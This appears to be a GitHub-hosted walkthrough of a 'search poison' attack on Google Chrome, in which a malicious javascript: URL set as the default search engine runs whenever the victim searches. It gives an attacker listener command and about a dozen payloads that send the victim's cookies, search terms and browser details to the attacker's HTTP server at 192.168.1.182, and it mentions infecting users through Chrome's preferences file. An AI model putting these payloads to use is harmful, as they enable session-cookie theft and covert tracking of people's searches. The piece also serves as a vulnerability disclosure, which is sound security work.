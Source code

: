 Google Chrome Search Poison – Default Search Engine Exploit
##Introduction
In December 2015, I discovered a vulnerability in Google Chrome's default search engines feature whereby a lack of input sanitation allows an attacker to store XSS in the victim's browser. This stored XSS is then executed whenever the victim searches using the omnibox.<br>
In this walkthrough we'll set up a Python SimpleHTTPServer and intercept the victim’s Cookies and search keywords.<br>
<br>
Note: The vulnerability has been reported to the Chromium team but they will not fix the issue.
##Video Demo
<https://www.youtube.com/watch?v=WoF-LkA6fMk><br>
The video demonstration involves manipulation of the chrome master-preferences file to infect the user with the malicious search engine. The user is then directed to the attackers apache server, which extracts the search query, cookies and other system information and seamlessly directs them back to their search.
##Walkthrough - Setting up the Listener in Kali
<code>
<div class="code">
root@kali:~$ <com>python -m SimpleHTTPServer 80</com>
</div>
</code>
##Setup on Victim Machine
1. Go into **"Settings"** in Google Chrome<br>
2. Click on **"Manage Search Engines"**<br>
3. Enter your malicious JS and click **"Make Default"**<br>

##Example
<code>
<div class="code">
<com>javascript:window.location='http://192.168.1.182/%s'+escape(document.cookie);</com>
</div>
</code>
Note: 192.168.1.182 is our SimpleHTTPServer.<br>
Now whenever the victim searches using Google Chrome’s Omnibox, the malicious JS will trigger, forwarding you their cookie and search string (%s).<br>
##Other examples
<code>
<div class="code">
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.cookie);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.baseURI);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.domain);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.URL);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(location.host);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appCodeName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appVersion);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.userAgent);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.product);
</div>
</code>

Tags: search-poison 
